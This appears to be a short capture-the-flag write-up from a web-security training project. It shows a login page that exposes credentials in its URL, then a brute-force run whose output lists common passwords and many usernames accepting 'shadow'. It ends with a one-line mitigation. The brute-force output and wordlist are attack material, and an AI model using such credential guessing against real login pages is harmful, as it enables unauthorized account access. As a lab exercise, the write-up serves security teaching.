

# Exploit

If we try to log in with a random username and password, we land on a "wrong answer" page, with the username and password appearing in cleartext in the URL.



With a python script, let's try the most common usernames and passwords:

```
[darkly@darkly] ~/08-plain-text_password_in_url/Ressources # python3 brute-force.py
try root:password...
try root:123456...
try root:12345678...
try root:abc123...
try root:querty...
try root:monkey...
try root:letmein...
try root:dragon...
try root:111111...
try root:baseball...
try root:iloveyou...
try root:trustno1...
try root:1234567...
try root:sunshine...
try root:master...
try root:123123...
(...)
```

If we display the file where successful combinations are found, we see there were many options:

```
[darkly@darkly] ~/08-plain-text_password_in_url/Ressources # cat found.txt
root:shadow
admin:shadow
user:shadow
test:shadow
ubuntu:shadow
ubnt:shadow
support:shadow
oracle:shadow
pi:shadow
guest:shadow
postgres:shadow
ftpuser:shadow
usuario:shadow
nagios:shadow
1234:shadow
ftp:shadow
operator:shadow
git:shadow
hadoop:shadow
ts3:shadow
administrator:shadow
Administrator:shadow
user1:shadow
alex:shadow
pos:shadow
demo:shadow
root:shadow
db2admin:shadow
Admin:shadow
sql:shadow
```

All that remains is to log in with one of these to get the flag.

# Mitigating the risk

Prevent insecure passwords
